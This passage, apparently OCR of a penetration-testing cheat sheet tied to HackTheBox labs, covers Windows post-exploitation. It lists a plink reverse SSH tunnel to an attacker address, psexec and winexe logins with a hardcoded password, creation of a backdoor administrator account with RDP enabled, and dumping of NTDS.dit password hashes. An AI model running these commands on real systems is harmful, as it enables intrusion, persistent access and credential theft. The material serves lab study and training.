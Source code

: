     cacls Windows utility to view/edit file permissions
    /E to edit ACL
    /P to set permissions
    Alfred:F to give Alfred full control of the file
    ```
- SSH from Windows to Attacker (Kali)
  - Manual
    - From Windows: `plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8`
    - From Attacker:
        ```bash
        netstat -ano | grep 445
        winexe -U Administrator //127.0.0.1 "cmd.exe"
        ```
  - Metasploit
    ```bash
    portfwd add -l 445 -p 445 -r 127.0.0.1
    use exploit/windows/smb/psexec
    set SMBDOMAIN CHATTERBOX
    set SMBUSER Administrators
    set SMBPASS Welcome1!
    set RHOST 127.0.0.1
    exploit
    ```
- Add user and enable RDP
    ```bash
    net user hacker hacker /add
    net localgroup /add Administrators hacker
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    ```
- [Windows file association](https://stackoverflow.com/questions/23074430/how-to-run-vbscript-from-command-line-without-cscript-wscript)

### Bypasses

- ftp.exe to open processes: <https://twitter.com/yeyint_mth/status/1009732492138442752>

### Tools 

- Patch Extractor : [https://gist.github.com/moshekaplan/e8d16ed91dc3ca53e73145ba3b2baebd](https://gist.github.com/moshekaplan/e8d16ed91dc3ca53e73145ba3b2baebd) [https://gist.github.com/anonymous/d55f494982c0097111d3263cf7099c9d](https://gist.github.com/anonymous/d55f494982c0097111d3263cf7099c9d)
- ntdsXtract - Active Directory forensic framework: <https://github.com/csababarta/ntdsxtract>
  - Extract users from ESE DB export:
    ```bash
    dsusers.py kotarak.dit.export/datatable.3 kotarak.dit.export/link_table.5 hashdump --syshive
    kotarak.bin --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc
    ```
  - Practice:
    - HTB: Kotarak
- LibEseDB - library to access the Extensible Storage Engine (ESE) Database File (EDB) format: <https://github.com/libyal/libesedb>
  - The ESE database format is used in may different applications like Windows Search, Windows Mail, Exchange, Active Directory, etc.
  - Dump tables:
    ```
    esedbexport -m tables 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit  
    ```
  - Practice:
    - HTB: Kotarak
- WinEXE - remotely executes commands on Windows NT/2000/XP/2003 systems from GNU/Linux (and possibly also from other Unices capable of building the Samba 4 software package): <https://sourceforge.net/projects/winexe/>
- PowerUpSQL: 
